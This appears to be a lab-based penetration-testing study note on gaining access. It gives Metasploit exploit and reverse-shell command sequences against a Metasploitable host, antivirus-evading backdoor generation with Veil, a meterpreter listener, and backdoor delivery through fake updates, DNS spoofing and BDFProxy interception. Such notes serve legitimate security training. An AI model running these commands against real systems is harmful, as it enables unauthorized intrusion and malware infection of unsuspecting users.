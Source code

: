# Gaining Access

Three main approaches:

1. [Server Side](#server-side)

2. [Client Side](#client-side)

3. [Social Engineering](#social-engineering)

## Server Side

---

* To check if the Metasploitable machine and the Kali machine are on the same network, we can do a ping test:

```shell
ping 10.0.2.5
```

* zenmap can be used to gather more information about the server, as we have the IP now. Based on the vulnerable ports and services, we can discover more attacks on it.

* For each open port or service, we can Google them followed by the term 'exploit', and that will give us an idea about the vulnerabilities.

* Metasploit framework can be used to develop and launch exploits.

* Example of backdoor vulnerability:

```shell
msfconsole #launches Metasploit

use exploit/unix/ftp/vsftpd_234_backdoor #use particular exploit

show options

set RHOSTS 10.0.2.5

exploit #launch exploit
```

* Example of payload execution:

```shell
msfconsole

use exploit exploit/multi/samba/usermap_script

show options

set RHOSTS 10.0.2.5

show payloads #shows all possible payloads for particular exploit

#bind payloads open up a port on the target computer, and we can connect to it
#reverse payloads open up a port on our machine, and the target computer can connect to it
#reverse payloads can bypass firewalls

set PAYLOAD cmd/unix/reverse_netcat #sets payload

show options

set LHOST 10.0.2.4

exploit
```

## Client Side

---

* These attacks require user interaction and should be attempted if server-side attacks do not work.

* We can use Veil framework to generate backdoors which cannot be detected by anti-virus softwares.

```shell
veil

use 1 #uses evasion

list #shows list of payloads

use 15 #uses particular payload

set LHOST 10.0.2.7 #value as our IP

set LPORT 8080

set PROCESSORS 1 #making the payload unique by setting properties values

set SLEEP 5

generate #generate the backdoor
```

* Once backdoor is generated, we can check if it is detected by antivirus programs.

* To listen for incoming connections:

```shell
msfconsole

use exploit/multi/handler #module for listening incoming connections

show options

set PAYLOAD windows/meterpreter/reverse_https #set payload option

set LHOST 10.0.2.7 #set lhost as ip address

set LPORT 8080

exploit
```

* To check if backdoor works, we first need to move the backdoor file to the location '/var/www/html'.Then, after starting the Kali web server, we can use the Windows VM to visit the specific directory of the backdoor file.

* We can use EvilGrade to launch a fake upgrade in order to make the target download the backdoor:

```shell
cd /opt/evilgrade

./evilgrade

show modules

configure dap #this selects the module 'dap'

show options

set agent /var/www/html/evil-files/rev_https_8080.exe #path of backdoor file

set endsite www.speedbit.com

start

#Now we would want to be the MITM, so in a separate terminal we can use spoof.cap and DNS spoofing; note that metasploit is still listening for incoming connections in the background

bettercap -iface eth0 -caplet spoof.cap

set dns.spoof.all true

set dns.spoof.domains update.speedbit.com

dns.spoof on

#Now we can check the software(DAP) for updates on the Windows machine, and get access to it remotely
```

* Another method for downloading backdoors is using a software called BDFProxy:

```shell
#Navigate to /opt/BDFProxy, and configure bdfproxy.cfg according to target

cd /opt/BDFProxy/

./bdf_proxy.py

#Now, become the MITM
bettercap -iface eth0 -caplet spoof.cap

#Apply a rule for packets
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080

#run resource file given by BDFProxy
msfconsole --resource /opt/BDFProxy/bdfproxy_msf_resource.rc

#Now, we can wait for target computer to download something like an .exe file, so that it can get backdoored during the process
```

## Social Engineering

---

*

---
